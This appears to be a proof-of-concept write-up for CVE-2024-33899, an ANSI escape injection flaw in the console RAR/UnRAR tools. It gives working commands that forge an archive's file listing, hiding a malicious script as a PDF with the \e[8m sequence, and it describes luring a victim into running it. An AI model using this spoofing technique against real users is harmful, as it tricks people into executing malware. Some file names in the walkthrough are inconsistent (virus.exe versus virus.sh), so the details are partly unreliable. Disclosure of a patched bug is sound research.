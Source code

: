 # CVE-2024-33899: ANSI Escape Injection Vulnerability in WinRAR

## Overview

On February 28, 2024, RARLAB released an update for WinRAR, addressing an ANSI escape sequence injection vulnerability identified in the console versions of RAR and UnRAR. This vulnerability, tracked as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows systems, affects versions 6.24 and earlier. It allows attackers to spoof screen output or cause a denial of service on Linux and Unix. This issue was resolved in version 7.00. It is important to note that the GUI version of WinRAR and the UnRAR library were not impacted by this vulnerability.

## Understanding the Vulnerability

### ANSI Escape Sequences

Programs like Vim and Neofetch utilize ANSI escape sequences to modify text and background color, control the cursor, and create graphical user interfaces within the terminal. Although ANSI escape sequences can create advanced terminal programs, they can also be weaponized.

### How WinRAR is Affected

WinRAR provides console versions of RAR and UnRAR, which can be used to create and extract RAR archives. RAR files support comments, which are displayed when listing the contents of the archive using the command `rar l demo.rar`.

#### Vulnerability Demonstration

To check if ANSI escape sequences are filtered out in the comment section, we can use a simple payload that will display "THIS IS GREEN" in green text.

```bash
printf 'Hello \033[32mTHIS IS GREEN\033[0m\007' | rar c demo.rar
```
Upon executing ``rar l demo.rar``, the output shows "THIS IS GREEN" in green, indicating that the comment field does not filter ANSI escape sequences.

Exploitation
This vulnerability can be exploited in various ways. Here, we will demonstrate an exploit suited for WinRAR.

Creating the Exploit
First, we will place our virus.exe file inside a RAR archive:

```bash
$ ls myfolder
virus.sh
$ rar a demo.rar script.sh myfolder 
```

Next, we will add the following payload to the comment section:
```bash
printf 'Archive: demo.rar\nDetails: RAR 5\n\nAttributes      Size       Date   Time   Name\n----------- ---------  ---------- -----  ---------\n-rw-r--r–        7    2024-05-19  16:26  notvirus.pdf\n-rw-r--r–      193    2024-05-19  16:26  script.sh\n----------- ---------  ---------- -----  ---------\n               200                          2\e[8m' | rar c demo.rar
```

This payload includes a fake listing where `virus.sh` is replaced with `notvirus.pdf`. The ANSI escape sequence `\e[8m` is used to hide all content after the comment section in the output. Consequently, the actual file listing is hidden, and our fake file listing is displayed.

The `script.sh` file inside `demo.rar` is designed to run all the .sh files inside myfolder so that the victim doesn't find anything suspicious when asked to run the `script.sh`, which would actually end up running the `virus.sh`. By running `script.sh`, all the shell scripts within myfolder will be executed in sequence. This is useful for batch processing tasks, ensuring that each script is run without having to execute them individually.

## Result
In the screenshot above, you can see a large gap between the output and the shell prompt. This gap is due to the original file listing being outputted but rendered invisible using \e[8m. While experienced command line users may find this suspicious, less experienced users could easily be tricked.


## Conclusion
The ANSI escape sequence injection vulnerability in the console versions of RAR and UnRAR posed a significant risk, allowing attackers to spoof output and potentially cause denial of service. This issue, identified as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows, was addressed in WinRAR version 7.00. The GUI version of WinRAR and the UnRAR library remain unaffected by this issue.
